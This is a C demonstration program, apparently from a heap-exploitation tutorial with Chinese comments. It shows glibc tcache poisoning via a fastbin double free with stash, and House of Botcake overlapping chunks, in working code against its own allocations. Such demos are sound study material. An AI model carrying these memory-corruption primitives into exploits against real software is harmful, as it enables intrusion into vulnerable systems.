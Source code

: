 ```c
    size_t* heapbase=getheap();
    printf("tcache bin 0x30 entry %p\n",heapbase[0x13]);
    printf("tcache bin 0x40 entry %p\n",heapbase[0x14]);
    printf("--------------------------------------------\n");
    // tcache stash with fastbin double free：
    // 在 fastbin 中并没有严密的 double free 检测，我们可以在填满对应的 tcache 链条后在 fastbin 中完成 double free，
    // 随后通过 stash 机制将 fastbin 中 chunk 倒回 tcache 中。此时 fsat bin double free 就变成了 tcahce double free 。
    size_t* chunkarray[0x10];
    for(int i=0;i<7;i++)
    {
        chunkarray[i]=malloc(0x60);
    }
    size_t* chunk3=malloc(0x60);
    size_t* chunk4=malloc(0x60);
     for(int i=0;i<7;i++)
    {
        free(chunkarray[i]);
    }

    free(chunk3);
    free(chunk4);
    free(chunk3);
    for(int i=0;i<7;i++)
    {
        chunkarray[i]=malloc(0x60);
    }
    chunk3=malloc(0x60);
    size_t fake_chunk[4];
    chunk3[0]=&fake_chunk[2]; //any just can be access
    malloc(0x60);
    malloc(0x60);
    size_t* dest_chunk=malloc(0x60);
    printf("(dest_chunk==&fake_chunk[2])= %d\n",dest_chunk==&fake_chunk[2]);
    printf("--------------------------------------------\n");
    //      House of Botcake
    // 同一个 chunk 释放到 tcache 和 unsorted bin 中。释放在 unsorted bin 的 chunk 借助堆块合并改变大小。
    // 相对于上一个方法，这个方法的好处是一次 double free 可以多次使用，因为控制同一块内存的 chunk 大小不同。
    for(int i=0;i<7;i++)
    {
        chunkarray[i]=malloc(0x80);
    }    
    size_t* chunk5=malloc(0x80);
    size_t* chunk6=malloc(0x80);
    size_t* chunk7=malloc(0x80);
     for(int i=0;i<7;i++)
    {
        free(chunkarray[i]);
    }    
    free(chunk5); 
    free(chunk6);
    malloc(0x80);
    free(chunk6); //chunk6同时存在与unsortedbin和tcachebin
    size_t* chunk8 =malloc(0x110);
    printf("chunk 8 +0x80+0x10 %p\n",&chunk8[18]);
    printf("chunk 6 %p\n",chunk6);
    printf("--------------------------------------------\n");
}
```
